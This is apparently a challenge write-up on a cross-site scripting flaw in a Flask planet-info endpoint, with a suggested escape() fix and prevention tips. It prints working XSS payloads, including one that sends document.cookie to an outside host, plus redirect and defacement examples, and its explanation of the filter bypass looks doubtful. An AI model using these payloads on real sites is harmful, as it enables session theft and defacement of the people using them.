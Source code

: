 ### This code is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting)

Vulnerable Function: `get_planet_info()` and ```get_planet_info_endpoint()```

### Why its vulnerable?

Re: ```sanitized_planet = re.sub(r'[<>(){}[\]]', '', planet) ```
In this regex, the characters <, >, (, ), {, }, [, and ] are explicitly removed, but whitespace characters are not removed. 
and only ```script``` tag is blocked, so we can use other tags like ```img``` to exploit XSS. 


Exploit: 
```js
<<img src="x" onerror="alert(1)">>
``` 

**Explanation**: In this payload, the double angle brackets << and >> will not be matched by the regex, so the payload remains unaffected, and the XSS attack will be executed.

### How to Fix?
- we can use Flask's built-in function escape from the Markup module. This function helps to escape special characters in the input, preventing them from being executed as HTML or JavaScript.

Example: 

```python
from flask import Flask, request, render_template, jsonify, escape
```

```python
return f'<h2>Planet Details:</h2><p>{escape(details)}</p>'
```
 
### What you can do with XSS?
- Steal Cookies and Session Information
- Redirect to malicious websites
- Modify website content
- Phishing
- Keylogging
- etc. 

### How to prevent XSS?
- Sanitize user input properly
- Use Content Security Policy (CSP)
- Use HttpOnly Cookies
- Use X-XSS-Protection header


### Here are some exploit examples:

#### Redirect to Phiting page using XSS 
```
<<img src="x" onerror="window.location.href = 'https://google.com';">>
```

#### Get cookies 
```<<img src="x" onerror="window.location.href = 'https://google.com/?cookie=' + document.cookie;">>
```

#### Modify website content
You can inject any phising page / malicious page or any other content to the website using XSS.

```
<<img src="x" onerror="document.body.innerHTML = '<h1>Website is hacked</h1>';">> 
```


 